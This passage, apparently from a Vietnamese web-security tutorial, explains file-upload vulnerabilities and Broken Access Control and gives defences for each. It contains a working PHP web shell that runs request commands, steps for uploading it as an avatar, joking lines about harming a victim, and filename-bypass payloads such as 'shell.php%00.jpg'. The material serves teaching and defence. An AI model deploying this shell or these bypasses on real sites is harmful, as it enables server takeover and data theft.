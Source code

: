 1. Tạo file hack.php
```php
<?php
  if(isset($_REQUEST['cmd'])) {
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  } else {
    echo "What is your bidding?";
  }
?>
```
2. upload avatar:

![](https://images.viblo.asia/7b35e937-beac-4d3c-9e55-732ffd278f35.png)

3. mở file "avatar" vửa upload

![](https://images.viblo.asia/01509e89-b41b-44d6-abb9-f5544d39ab67.png)

4. excute command để lấy clip full không che

![](https://images.viblo.asia/0daed087-726d-46a7-be98-1fd73d1bbea2.png)

5. dạy nạn nhân tiếng mán để tiện cho việc khóc

PHP không phải loại file duy nhất, các đuôi như .php1, php2, 3... hoặc .lp, .cgi, đôi khi chỉ cần thay đổi hoa thường như PHP, PHP1,... Hoặc chứ vài 3 cái đuôi như `image.jpg.php` , thậm trí là `.htaccess`

#### Phòng chống
##### 1. Tách biệt các file upload
##### 2. Đảm bảo các tệp tải lên không thể thực thi
##### 3. Đổi tên file sau khi upload
##### 4. Validate format của file và đuôi mở rộng
cái này mà dùng whitelist thì đỡ khổ hơn, những vẫn có cách bypass: 
+ Null Byte Injection: `shell.php%00.jpg`
+ Double Extension: `shell.php.jpg`, `shell.php;.jpg`, `shell.php:jpg`
+ Invalid Extension Bypass
##### 5. validate content-type header
##### 6. Sử dụng quét virus
*Các bạn có thể xem thông tin về lỗi này kĩ hơn tại đây https://viblo.asia/p/khai-thac-cac-lo-hong-file-upload-phan-1-aWj53L6pK6m*
### Broken Access Control
Là lỗi xảy ra khi quản lý access control của user không được chắt chẽ, khiến user có thể truy cập thông tin hoặc thực hiện các hành động ngoài thầm quyền của họ, như xem hay sửa thông tin của user khác,... đây cũng là lỗi thường thuộc top 10 theo OWASP, nói chung thì cái vấn đề phân quyền cũng lằng nhằng phức tạp lắm.
#### Phòng chống
Cũng không có giải pháp chung nào cho mọi trường hợp khi gặp lỗi này, nhưng nói chung thì chúng ta nên tập chung vào 3 khía cạnh sau
##### 1. Xác thực
Xác nhận đúng là người dùng ứng dụng
##### 2. Ủy quyền
Quyết định quyền người dùng được và không được thực hiện một khi họ được xác thực
##### 3. Kiểm tra quyền
Kiểm tra lại quyền khi người dùng muốn thực hiện 1 dành động nào đó.